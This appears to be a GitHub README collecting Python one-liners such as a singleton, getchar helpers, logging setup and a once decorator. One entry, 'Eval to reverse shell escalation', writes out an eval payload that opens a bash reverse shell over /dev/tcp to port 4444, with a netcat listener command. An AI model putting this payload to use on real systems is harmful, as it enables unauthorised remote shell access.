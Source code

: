 # python-snippets

A collection of various one-liners and recipes I wrote.

<details>
  <summary>Singleton</summary>
  
```python
class WhateverClass():
    def __init__(self):
        ... # Other init code here if needed
        self.__class__.__new__ = lambda _: self  # At the end of init this makes a singleton class
        self.__class__.__init__ = lambda *_, **__: None  # Prevent init from affecting the singleton more than once
```
</details>




<details>
  <summary>Eval to reverse shell escalation</summary>
  
  ```python
  eval("__import__('os').system(\"bash -c 'bash -i >& /dev/tcp/127.0.0.1/4444 0>&1'\")", locals={}, globals={})
  (attacker listens to: $ nc -lvnp 4444)
  ```
  
</details>



<details>
  <summary>Windows wakelock</summary>

```python
python -c "import ctypes,time;f=ctypes.windll.user32.keybd_event;exec('while 1:time.sleep(f(19,0,1,0)+f(19,0,3,0)<<5)')"
```

</details>



<details>
  <summary>Unix getchar</summary>

```python
import os
import termios
import tty
import sys
def getch_nix():
    """Get char, reads single character OR key combination without enter."""
    try:
        old_settings = termios.tcgetattr(sys.stdin.fileno())  # Save terminal settings.
        tty.setraw(sys.stdin.fileno())  # Terminal settings to raw mode; read w/o enter.
        char = sys.stdin.read(1)  # Read first character in blocking mode to wait input.
        os.set_blocking(sys.stdin.fileno(), False)  # Set stdin to non-blocking mode.
        return char + "".join(iter(lambda: sys.stdin.read(1), ""))  # Iter to dump buff.
    finally:  # Restore blocking mode and old terminal settings.
        os.set_blocking(sys.stdin.fileno(), True)
        termios.tcsetattr(sys.stdin.fileno(), termios.TCSANOW, old_settings)
  </details>
```

</details>


<details>
  <summary>Windows getchar</summary>

```python
import msvcrt
def getch_win():
    """Get char, reads single character OR key combination without enter."""
    # First getch call starts reading, other calls in iter dump kb buffer if non-empty.
    return msvcrt.getch() + b''.join(msvcrt.getch() for _ in iter(msvcrt.kbhit, False))
```

</details>


<details>
  <summary>Minimal logging</summary>

```python
logging.basicConfig(
    level=logging.INFO,
    format="%(asctime)s %(message)s",
    datefmt="%y-%m-%d %H:%M:%S %z"
)
logger = logging.getLogger()
```

</details>




<details>
  <summary>One time only function</summary>

```python
def once(func):
    def wrapper(*args, **kwargs):
        result = func(*args, **kwargs)
        func.__code__ = (lambda *_ , **__: None).__code__
        return result
    return wrapper
```

</details>
